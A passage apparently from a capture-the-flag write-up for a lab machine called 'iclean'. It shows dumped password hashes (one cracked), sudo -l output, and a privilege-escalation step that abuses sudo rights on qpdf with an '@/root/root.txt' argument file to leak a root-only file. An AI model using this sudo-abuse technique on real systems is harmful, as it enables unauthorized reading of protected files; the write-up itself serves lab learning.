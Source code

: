 ```
admin:2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:simple and clean
```

---

## Privesc

```
consuela@iclean:/tmp/privesc$ sudo -l
Matching Defaults entries for consuela on iclean:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

```
consuela@iclean:/tmp/privesc$ /usr/bin/qpdf --help=usage
Read a PDF file, apply transformations or modifications, and write
a new PDF file.

Usage: qpdf [infile] [options] [outfile]
   OR  qpdf --help[={topic|--option}]

- infile, options, and outfile may be in any order as long as infile
  precedes outfile.
- Use --empty in place of an input file for a zero-page, empty input
- Use --replace-input in place of an output file to overwrite the
  input file with the output
- outfile may be - to write to stdout; reading from stdin is not supported
- @filename is an argument file; each line is treated as a separate
  command-line argument
- @- may be used to read arguments from stdin
- Later options may override earlier options if contradictory

Related options:
  --empty: use empty file as input
  --job-json-file: job JSON file
  --replace-input: overwrite input with output

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```

```
consuela@iclean:/tmp/privesc$ sudo /usr/bin/qpdf --empty - @/root/root.txt

qpdf: unknown argument eb605783eb702b0fb5ff6392eccc9dea

For help:
  qpdf --help=usage       usage information
  qpdf --help=topic       help on a topic
  qpdf --help=--option    help on an option
  qpdf --help             general help and a topic list
```

